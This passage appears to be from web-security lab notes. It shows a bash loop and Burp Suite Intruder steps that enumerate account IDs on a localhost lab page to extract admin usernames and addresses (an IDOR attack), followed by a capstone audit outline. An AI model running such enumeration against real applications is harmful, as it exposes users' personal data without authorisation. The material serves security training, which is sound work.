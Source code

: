 ```bash
while IFS= read -r id; do
    # Fetch the response for the current ID
    response=$(curl -s "http://localhost/labs/e0x02.php?account=$id")

    # Extract Username, Address, and Type using grep and awk
    username=$(echo "$response" | grep -oP '(?<=<p>Username: ).*?(?=</p>)')
    address=$(echo "$response" | grep -oP '(?<=<p>Address: ).*?(?=</p>)')
    type=$(echo "$response" | grep -oP '(?<=<p>Type: ).*?(?=</p>)')

    # Check if Type is 'admin'
    if [[ "$type" == "admin" ]]; then
        # Write to output file
        echo "ID: $id | Username: $username | Address: $address | Type: $type" >> output.txt
    fi
done < ids.txt
```

- We get the following 4 admin users:

```
ID: 1008 | Username: harry | Address: 99, Potter Drive, HGP 3KT | Type: admin
ID: 1010 | Username: jack | Address: 121, Sparrow Street, PRT 4BD | Type: admin
ID: 1012 | Username: lucy | Address: 141, Diamond Street, LDN 2RT | Type: admin
ID: 1014 | Username: nancy | Address: 161, Drew Drive, USA 2ND | Type: admin
```

### BurpSuite

- Send the GET request `http://localhost/labs/e0x02.php?account=1009` to the Intruder.
- Select `Sniper` as the type of attack.
- Define the account ID as a variable.
- Create a sequence of account IDs from 1 to 2000 using the following command: `python3 -c "for i in range (1,2001): print(i)" > num.txt`
- In the Payloads tab, load the sequence file `num.txt`
- Launch the attack.
- Order the results by response length:
  - A length of `1168` indicates `No account information found`
  - Responses with a length around `1210` to `1220` contain user information.

## Capstone - Introduction

### Objective

Perform a comprehensive security audit of a small application with login functionality. Instead of focusing on a single critical vulnerability that might lead to code execution, aim to identify all impactful issues across various attack vectors.

### Topics to Cover

- **SQL Injection**: Test for vulnerabilities in database queries.
- **Cross-Site Scripting (XSS)**: Check for script injection and improper handling of user inputs.
- **Command Injection**: Look for potential injection points where system commands might be executed.
- **Insecure File Upload**: Assess file upload functionality for risks such as arbitrary file upload or code execution.
- **Authentication**: Evaluate authentication mechanisms for weaknesses like poor password policies or insecure session management.
- **XML External Entity (XXE)**: Test XML parsing for vulnerabilities that could lead to file disclosure or other attacks.
- **Insecure Direct Object References (IDOR)**: Check for unauthorized access to resources through predictable URLs or parameters.

